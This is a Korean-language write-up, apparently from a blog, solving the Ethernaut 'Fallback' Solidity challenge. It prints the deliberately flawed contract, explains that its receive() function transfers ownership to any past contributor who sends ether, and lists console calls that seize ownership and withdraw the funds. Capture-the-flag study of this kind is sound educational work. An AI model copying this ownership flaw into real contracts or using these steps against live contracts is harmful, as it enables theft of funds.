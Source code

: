 +++
title = "Fallback"
description = "Ethernaut: Fallback"
date = 2023-03-22

[taxonomies]
categories = ["Ethernaut"]
tags = ["Solidity", "fallback", "ethernaut"]

[extra]
math=true
+++

---

# 문제 설명
<details>
<summary>전체 코드</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

</details>

- `Fallback` contract 는 자신에게 돈을 보낸 사람들의 정보를 기록합니다.
- 재밌는 부분은 주인보다 더 많이 <mark>contribute</mark> 하면 주인이 될 수도 있다는 점입니다.

---

- 문제를 해결하기 위한 조건은 아래 두 가지 입니다.
  - ***contract 의 주인이 될 것***
  - ***contract 가 갖고 있는 돈이 0원일 것***
- 쉽게 말해, <u>*contract 주인이 되어서 보관된 돈을 다 빼오는게*</u> 목표입니다.

---

- <mark>Hint</mark>로 아래 세 가지를 생각해 볼 것을 제안합니다.
  - *ether* 를 보내는 방법
  - *wei* 단위와 *ether* 단위로 서로 변환하는 방법
  - Fallback method

---

# 문제 분석

- 코드를 자세히 살펴보겠습니다.
- 우선 contract 가 생성될 때 한번 호출되는 <mark>constructor()</mark> 함수가 아래와 같습니다.

```solidity
constructor() {
  owner = msg.sender;
  contributions[msg.sender] = 1000 * (1 ether);
}
```

- 그리고, <mark>contribute()</mark> 함수가 아래와 같습니다.

```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```

- *contribute* 는 한 번 할 때, `0.001 eth` 미만의 값만 가능합니다. 
- 주인이 되기 위해선, 현재 주인의 contribute 값인 `1000 eth` 보다 값이 높아져야 합니다.
- 따라서, <mark>contribute()</mark> 를 통해 주인이 되는 것은 (가능은 하지만) 너무 어려운 길입니다..
- 다행히 주인이 되는 방법이 한가지 더 있는데, 바로 <mark>receive()</mark> 함수를 이용하는 것입니다.
> - <mark>receive()</mark> 함수에 대한 정보는 [Docs](https://docs.soliditylang.org/en/v0.8.17/contracts.html#receive-ether-function) 참조

```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```

- 아무런 function call 없이, 단순히 contract 에 돈을 보내려 하면 <mark>receive()</mark> 에 정의된 대로 동작이 일어난다고 합니다.
- 따라서, 아래와 같은 절차로 문제를 해결할 수 있음을 알 수 있습니다.
> - <mark>contribute()</mark> 로 돈을 `0.0005 eth` 보냅니다.
> - contract 로 `0.0001 eth` 를 ***그냥*** 송금하는 tx 를 보냅니다.
>   - 이 때, contract의 주인이 됩니다.
> - <mark>withdraw()</mark> 로 돈을 다 빼옵니다.

---

# 문제 풀이
- 아래 순서대로 Dev Tool의 Console 에서 입력하면 된다.

```js
// `0.0005 eth` 담아서 contribute 하기
contract.contribute({value: toWei("0.0005")})

// `0.0001 eth` 그냥 보내기
contract.sendTransaction({value: toWei("0.0001")})

// 돈 다 빼오기
contract.withdraw()
```

---
